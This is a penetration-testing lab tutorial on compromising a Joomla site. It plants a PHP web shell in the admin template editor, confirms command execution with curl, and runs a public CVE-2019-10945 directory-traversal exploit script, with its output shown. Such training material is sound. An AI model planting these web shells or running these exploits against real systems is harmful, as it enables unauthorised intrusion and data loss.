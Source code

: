 # Attacking Joomla

We now know that we are dealing with a Joomla e-commerce site. If we can gain access, we may be able to land in the client's internal environment and begin enumerating the internal domain environment. Like WordPress and Drupal, Joomla has had its fair share of vulnerabilities against the core application and vulnerable extensions. Furthermore, like the others, it is possible to gain remote code execution if we can log in to the admin backend.

***

## Abusing Built-In Functionality

During the Joomla enumeration phase and the general research hunting for company data, we may come across leaked credentials that we can use for our purposes. Using the credentials that we obtained in the examples from the last section, `admin:admin`, let's log in to the target backend at `http://dev.inlanefreight.local/administrator`. Once logged in, we can see many options available to us. For our purposes, we would like to add a snippet of PHP code to gain RCE. We can do this by customizing a template.

{% hint style="danger" %}
If you receive an error stating "An error has occurred. Call to a member function format() on null" after logging in, navigate to "http://dev.inlanefreight.local/administrator/index.php?option=com\_plugins" and disable the "Quick Icon - PHP Version Check" plugin. This will allow the control panel to display properly.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php</p></figcaption></figure>

From here, we can click on `Templates` on the bottom left under `Configuration` to pull up the templates menu.

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates</p></figcaption></figure>

Next, we can click on a template name. Let's choose `protostar` under the `Template` column header. This will bring us to the `Templates: Customise` page.

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates&#x26;view=template&#x26;id=506</p></figcaption></figure>

Finally, we can click on a page to pull up the page source. It is a good idea to get in the habit of using non-standard file names and parameters for our web shells to not make them easily accessible to a "drive-by" attacker during the assessment. We can also password protect and even limit access down to our source IP address. Also, we must always remember to clean up web shells as soon as we are done with them but still include the file name, file hash, and location in our final report to the client.

Let's choose the `error.php` page. We'll add a PHP one-liner to gain code execution as follows.

```php
system($_GET['dcfdd5e021a869fcc6dfaef8bf31377e']);
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>http://dev.inlanefreight.local/administrator/index.php?option=com_templates&#x26;view=template&#x26;id=506&#x26;file=L2Vycm9yLnBocA%3D%3D</p></figcaption></figure>

Once this is in, click on `Save & Close` at the top and confirm code execution using `cURL`.

```shell-session
$ curl -s http://dev.inlanefreight.local/templates/protostar/error.php?dcfdd5e021a869fcc6dfaef8bf31377e=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

From here, we can upgrade to an interactive reverse shell and begin looking for local privilege escalation vectors or focus on lateral movement within the corporate network. We should be sure, once again, to note down this change for our report appendices and make every effort to remove the PHP snippet from the `error.php` page.

***

## Leveraging Known Vulnerabilities

At the time of writing, there have been [426](https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html) Joomla-related vulnerabilities that received CVEs. However, just because a vulnerability was disclosed and received a CVE does not mean that it is exploitable or a working public PoC exploit is available. Like with WordPress, critical vulnerabilities (such as those remote code execution) that affect Joomla core are rare. Searching a site such as `exploit-db` shows over 1,400 entries for Joomla, with the vast majority being for Joomla extensions.

Let's dig into a Joomla core vulnerability that affects version `3.9.4`, which our target `http://dev.inlanefreight.local/` was found to be running during our enumeration. Checking the Joomla [downloads](https://www.joomla.org/announcements/release-news/5761-joomla-3-9-4-release.html) page, we can see that `3.9.4` was released in March of 2019. Though it is out of date as we are on Joomla `4.0.3` as of September 2021, it is entirely possible to run into this version during an assessment, especially against a large enterprise that may not maintain a proper application inventory and is unaware of its existence.

Researching a bit, we find that this version of Joomla is likely vulnerable to [CVE-2019-10945](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945) which is a directory traversal and authenticated file deletion vulnerability. We can use [this](https://www.exploit-db.com/exploits/46710) exploit script to leverage the vulnerability and list the contents of the webroot and other directories. The python3 version of this same script can be found [here](https://github.com/dpgg101/CVE-2019-10945). We can also use it to delete files (not recommended). This could lead to access to sensitive files such as a configuration file or script holding credentials if we can then access it via the application URL. An attacker could also cause damage by deleting necessary files if the webserver user has the proper permissions.

We can run the script by specifying the `--url`, `--username`, `--password`, and `--dir` flags. As pentesters, this would only be useful to us if the admin login portal is not accessible from the outside since, armed with admin creds, we can gain remote code execution, as we saw above.

```shell-session
$ python2.7 joomla_dir_trav.py --url "http://dev.inlanefreight.local/administrator/" --username admin --password admin --dir /
 
# Exploit Title: Joomla Core (1.5.0 through 3.9.4) - Directory Traversal && Authenticated Arbitrary File Deletion
# Web Site: Haboob.sa
# Email: research@haboob.sa
# Versions: Joomla 1.5.0 through Joomla 3.9.4
# https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-10945    
 _    _          ____   ____   ____  ____  
| |  | |   /\   |  _ \ / __ \ / __ \|  _ \ 
| |__| |  /  \  | |_) | |  | | |  | | |_) |
|  __  | / /\ \ |  _ <| |  | | |  | |  _ < 
| |  | |/ ____ \| |_) | |__| | |__| | |_) |
|_|  |_/_/    \_\____/ \____/ \____/|____/ 
                                                                       


administrator
bin
cache
cli
components
images
includes
language
layouts
libraries
media
modules
plugins
templates
tmp
LICENSE.txt
README.txt
configuration.php
htaccess.txt
index.php
robots.txt
web.config.txt
```

***

## Moving On

Next, let's take a look at Drupal, which, while it holds a much smaller share of the CMS market, is still used by companies worldwide.
